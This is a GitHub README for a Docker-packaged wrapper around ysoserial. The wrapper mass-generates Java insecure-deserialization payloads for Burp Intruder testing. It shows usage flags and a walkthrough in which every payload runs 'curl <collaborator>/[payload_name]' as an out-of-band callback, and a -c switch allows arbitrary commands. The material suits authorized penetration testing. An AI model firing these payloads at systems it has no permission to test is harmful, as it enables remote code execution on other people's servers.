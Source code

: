# ysoserial-cannon

Python wrapper based for [ysoserial](https://github.com/frohoff/ysoserial) and [ysoserial-wrapper](https://github.com/aludermin/ysoserial-wrapper) to make exploitation of the JAVA [Insecure Deserialization](https://portswigger.net/web-security/deserialization) vulnerabilities, perfect for situations where you need to rapidly test all payloads in bulk and automate the process of firing them off in tools like Burp Suite Intruder to find vulnerabilities fast.

## Requirements
- Pull image:
```shell
docker pull b3xal/ysoserial-cannon
```

## Usage
```
docker run -it --rm b3xal/ysoserial-cannon -h

usage: docker run -it --rm b3xal/ysoserial-cannon [-h] [-c 'COMMAND'] [-gzip] [-b64]

options:
  -h, --help            show this help message and exit
  -c 'COMMAND', --command 'COMMAND'
                        Command to be executed
  -gzip                 Compress the payload with gzip before encoding in base64
  -b64                  Do not url-encode, output base64 string

```

## Walkthrough
Without any parameters given, it will ask for a collaborator url:
```
docker run -it --rm b3xal/ysoserial-cannon   
[*] No payload defined, using curl <collaborator_payload>/[payload_name]
[!]	Enter your collaborator payload:

```
and build every possible payload using command:
```
curl <collaborator_payload>/[payload_name]
```
and then displays them in order to copy the required payloads to your intruder:
```
[+]		Generating Spring1 payload ...
[+]		Generating Spring2 payload ...
[+]		Generating URLDNS payload ...
[+]		Generating Vaadin1 payload ...

[!] There are 26 payloads waiting in your clipboard ...

```

![Collaborator](img/payloads.png)

You can use them in an Intruder attack to check which payloads worked:

![Collaborator](img/intruder.png)
![Collaborator](img/collaborator.png)

## Worth reading

By default, the raw payload will be base64 encoded and next url encoded.
There are 2 switches to modify this behaviour:
- `-gzip` - will make the script to compress raw payload before encoding in base64
- `-b64` - will turn off url encoding, you will get a base64 encoded payload

You can also use `-c` or `-command` switch to generate payloads of your choice from the start.
Beware of quotes in commands :)
